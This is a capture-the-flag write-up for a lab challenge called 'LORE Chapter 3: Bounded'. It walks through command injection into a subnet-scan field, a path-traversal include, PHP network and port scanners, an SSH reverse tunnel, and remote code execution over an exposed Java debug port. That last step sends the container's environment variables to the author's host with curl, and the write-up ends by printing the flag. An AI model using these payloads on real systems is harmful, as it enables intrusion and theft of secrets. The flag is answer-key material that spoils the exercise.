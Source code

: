 LORE: Chapter 3: Bounded
======================================

## Task
Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at http://intro.lore.tcc.

## Solution
If we open this chapter, we get javascript tic tac toe game, played locally in browser. Nothing useful here. Even reference on WarGames movie is not useful :-) There is only one unusual thing, if we try some random URL which returns 404, we see that webserver is running on Tomcat. As we can notice, all challenges from LORE are facing to us with same IP address, that probably means that we are accessing them through reverse proxy. Also we can notice that probably all are running as kubernetes containers and containers has some individual networking as was possible to see in /etc/hosts file. Also in hint is mentioned that challenges should be done in order. So probably we need the shell access gained in previous challenge. Well, we know that previous containers has addresses from 192.168.73.0/24 address space. So let's use pimpam shell and run this small php script for resolving DNS names in this network:

```
<?php

function resolve_dns_range($subnet, $mask) {
    $subnet_long = ip2long($subnet);
    $mask_long = ~((1 << (32 - $mask)) - 1);
    
    $start = $subnet_long & $mask_long;
    $end = $start | ~$mask_long;

    for ($ip_long = $start; $ip_long <= $end; $ip_long++) {
        $ip = long2ip($ip_long);
        $hostname = gethostbyaddr($ip);
        if ($hostname !== $ip) {
            echo "IP: $ip, Hostname: $hostname\n";
        } else {
            echo "IP: $ip, No hostname found\n";
        }
    }
}

resolve_dns_range('192.168.73.0', 24);
?>
```

We can download this script to pimpam with this command (assume that 10.200.0.24 is our IP address in VPN, we have running web server and in scanner file is content above):

```
curl -v -XPOST http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php -d port=22 -d subnetId="; curl http://10.200.0.24/scanner -o /tmp/test.php;"
```

And open this in browser to show script output: http://pimpam.lore.tcc/app/dashboard/widgets/index.php?section=../../../../../../tmp/test

In output we find similar line: IP: 192.168.73.104, Hostname: 192-168-73-104.jgames-debug.jgames.svc.cluster.local

So our tomcat container has this IP address. Note that another hint is saying that container is restarted on health check. From this point we must be quick because after restart the IP address can be different (so if we don't do it on time, we must re-run this script to gain new address and repeat).

Now let's try quick nmap written in PHP :-) In same way run this PHP script to find out opened port on tomcat container:

```
<?php
function scan_ports($ip, $start_port, $end_port, $timeout = 0.2) {
    $open_ports = [];

    for ($port = $start_port; $port <= $end_port; $port++) {
        $connection = @fsockopen($ip, $port, $errno, $errstr, $timeout);
        if ($connection) {
            echo "Port $port is open.\n";
            $open_ports[] = $port;
            fclose($connection);
        }
    }

    return $open_ports;
}

$ip_address = '192.168.73.104';
$start_port = 1;
$end_port = 65535;
scan_ports($ip_address, $start_port, $end_port);?>
```

This reveals that port 5005 and 8080 are opened. 8080 is tomcat HTTP port, that one which we can access through reverse proxy. But 5005 is... java debug wire protocol. Well, what to do with it? With a little googling we can find this one very nice Python script: https://github.com/hugsy/jdwp-shellifier

This script connects to that port and can run any specified shell command. We can't get output from the command, we can't use output redirection and similar thinks as we don't have shell, but the command is executed. Well, we can help with this simple php script on our local web server for saving POST data (will be helpful for next challenge):

```
<?php
$data = file_get_contents('php://input');
$f = '/var/www/html/post';

file_put_contents($f, $data);
?>
```

There is just one more thing which was not working for me... jdwp-shellifier works that way that set breakpoint on some method which should be executed in java application. When this happens, it injects some code and execute specified command. By default it set brakepoint on Socket.accept() method which should work on tomcat when you do any HTTP request. But it wasn't working for me... maybe, I don't know, in kubernetes container it uses something different. But setting brakepoint on java.lang.String.indexOf method worked.

So... last thing to solve, we probably want to run shellifier script on our WS, but we can't reach that port because it's in container. But there is one trick: on pimpam container is SSH client. So we can connect from pimpam container with SSH to our workstation and tunnel port to jgames container. Just one important thing: do not this at home :-) Or at least at your production workstation. But when you do this... all other players has also access to your workstation :-)

So using the way above download to pimpam container ssh private key to some account on your WS, chmod 600 it and run SSH client like this (in authorized_keys on local ws use something like command="sleep 1000"):

```
curl -v -XPOST http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php -d port=22 -d subnetId="; ssh -o  \"StrictHostKeyChecking no\" -i /tmp/getout -R 5005:192.168.73.104:5005 getout@10.200.0.24"
```

Replace IP address for jgames container and for your VPN address. Look with ss -plnt on opened ports on your local workstation, if it worked, you will have opened port 5005. Now you can use jdwp-shellifier:

```
python3 jdwp-shellifier.py -t localhost -p 5005 --break-on java.lang.String.indexOf --cmd "curl --data-binary @/proc/self/environ 10.200.0.24/post.php"
[+] Target: localhost:5005
[*] Trying to connect...
[+] Connection successful!
[+] Handshake sent
[+] Handshake successful
[*] Requesting ID sizes from the JDWP server...
        • fieldIDSize: 8
        • methodIDSize: 8
        • objectIDSize: 8
        • referenceTypeIDSize: 8
        • frameIDSize: 8
[+] ID sizes have been successfully received and set.
[*] Requesting version information from the JDWP server...
        • description: Java Debug Wire Protocol (Reference Implementation) version 21.0
JVM Debug Interface version 21.0
JVM version 21.0.4 (OpenJDK 64-Bit Server VM, mixed mode, sharing)
        • jdwpMajor: 21
        • jdwpMinor: 0
        • vmVersion: 21.0.4
        • vmName: OpenJDK 64-Bit Server VM
[+] Version information has been successfully received and set.
[+] Found Runtime class: id=0xd2a
[+] Found Runtime.getRuntime(): id=0x7f132c8a7f10
[+] Created break event id=0x2
[+] Resume VM signal sent
[+] Waiting for an event on 'indexOf'
[+] Received matching event from thread 0xe42
[+] Payload to send: 'curl --data-binary @/proc/self/environ 10.200.0.24/post.php'
[+] Command string object created id:e43
[+] Runtime.getRuntime() returned context id:0xe44
[+] Found Runtime.exec(): id=7f1288000cc0
[+] Runtime.exec() successful, retId=e45
[+] Resume VM signal sent
```

If it hangs on "Waiting for an event on 'indexOf" just open/refresh javascript game in browser. And if you look on saved POST data, you can find flag: FLAG{ijBw-pfxY-Scgo-GJKO}
